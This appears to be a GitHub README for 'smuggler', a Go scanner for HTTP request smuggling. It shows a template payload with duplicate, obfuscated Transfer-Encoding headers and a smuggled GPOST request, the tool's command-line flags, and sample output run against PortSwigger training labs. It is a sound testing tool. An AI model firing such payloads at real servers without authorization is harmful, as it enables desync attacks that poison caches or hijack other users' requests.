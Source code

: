 # smuggler
net/http makes it very challenging to send a request with malformed or duplicate headers. So for this application, it is more practical to parse a template and write it to a socket. This makes it simple to add your own payloads and may be useful for other things than request smuggling for ease of creating templates by copy/pasting from Burp.  
  
I took some ideas from this article https://www.synopsys.com/blogs/software-security/fuzzing-test-cases-not-all-random/ about the structure of the program. Separating the application into distinct sections being poet, courier, and oracle help make the code more reusable.



Example template:
```
Match: Unrecognized method GPOST
Request: |+
  POST {{.Path}} HTTP/1.1
  Host: {{.Host}}
  Content-Type: application/x-www-form-urlencoded
  Content-length: 4
  Transfer-Encoding: chunked
  Transfer-encoding: cow

  5c
  GPOST / HTTP/1.1
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 15

  x=1
  0


```

Usage:
```
$ ./smuggler -h
Usage of ./smuggler:
  -header string
    	Custom header to add to requests, example: '-header "User-Agent: garlic0x1"'
  -proxy string
    	Set the environment proxy, for example: http://example.com:8080
  -threads int
    	Number of concurrent targets to test (default 5)
  -timeout int
    	Timeout (default 10)
  -u string
    	Target URL
  -urls string
    	List of URLs
```

Example test on Portswigger labs:
```
$ ./smuggler -urls targets.test
https://ace51fd41fcbfab0c03e376f00890063.web-security-academy.net/ is vulnerable, payload: templates/template.txt
https://acbf1fa51ea928ebc0ae8934000800c3.web-security-academy.net/ is vulnerable, payload: templates/template2.txt
https://acbf1fa51ea928ebc0ae8934000800c3.web-security-academy.net/ is vulnerable, payload: templates/template3.txt

```
